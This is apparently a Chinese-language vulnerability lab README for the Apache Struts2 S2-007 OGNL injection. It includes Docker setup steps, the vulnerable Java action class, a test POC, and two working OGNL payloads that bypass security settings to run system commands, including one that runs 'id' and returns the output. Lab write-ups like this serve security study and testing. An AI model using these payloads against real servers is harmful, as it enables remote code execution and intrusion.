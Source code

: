 # S2-007 远程代码执行漏洞

影响版本: 2.0.0 - 2.2.3
漏洞详情: http://struts.apache.org/docs/s2-007.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

在处理类型转换的错误时会存入错误到内存中，在后续调用流程中触发OGNL表达式注入，**无需编写`<ActionName> -validation.xml`**。

```java
import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport {
    private String username;
    private String password;
    private int age;

    public String getUsername() {
        return username;
    }

    public String getPassword() {
        return password;
    }

    public int getAge() {
        return age;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public String execute() throws Exception{
        if (this.username == null || this.password == null) {
            return "failed";
        }

        if (this.username.equals("admin") && this.password.equals("admin")) {
            return "success";
        }

        return "failed";
    }
}
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。

测试POC：
```
'+(#application)+'
```

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```

访问 `<host>:8080`并在age处设置你的payload。

## Exploit

@rickgray 在原文中只给了弹计算器的POC，我给出执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：

![](1.jpeg)